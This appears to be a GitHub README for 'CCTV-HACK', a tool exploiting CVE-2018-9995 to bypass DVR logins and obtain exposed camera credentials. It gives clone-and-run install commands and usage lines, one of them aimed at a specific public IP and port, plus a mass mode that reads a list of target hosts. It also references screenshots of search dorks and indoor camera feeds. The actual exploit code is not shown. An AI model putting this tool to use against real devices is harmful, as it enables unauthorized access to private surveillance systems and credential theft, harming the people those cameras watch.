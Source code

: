 #  [Exploit] DVR LOGIN BYPASS (CCTV-HACK)

	[*] CVE:                 CVE-2018-9995
	[*] CVSS Base Score v3:  7.3 / 10

	
![DVR_wall](screenshot/videowall.jpg) 


# On the Wild:

![DVR_dorks_2](screenshot/d1.jpg)
![DVR_dorks_3](screenshot/d2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/login1.jpg)
![DVR_login_2](screenshot/login2.jpg)
![DVR_login_3](screenshot/login3.jpg)

## Indoor:
![DVR_indoor_1](screenshot/in.jpg)
![DVR_indoor_2](screenshot/in1.jpg)
![DVR_indoor_3](screenshot/in2.jpg)



# TOOL: "CCTV-HACK"

## Installation Code
'''

	git clone https://github.com/tausifzaman/cctv-hack
	cd cctv-hack
	pip install -r requirements.txt
    python cctv.py

'''

## Usages 

	usage: python cctv.py
or,             python cctv.py --host 109.100.130.57 --port 8000
or,             python cctv.py -m target.txt

	[+] Obtaining Exposed credentials

options:
  -h, --help            show this help message and exit
  --host HOST           Host
  --port PORT           Port
  -m MASS, --mass MASS  File with host:port or URL list


## Pocs (Output) :
![DVR_poc_4](screenshot/output.jpg)


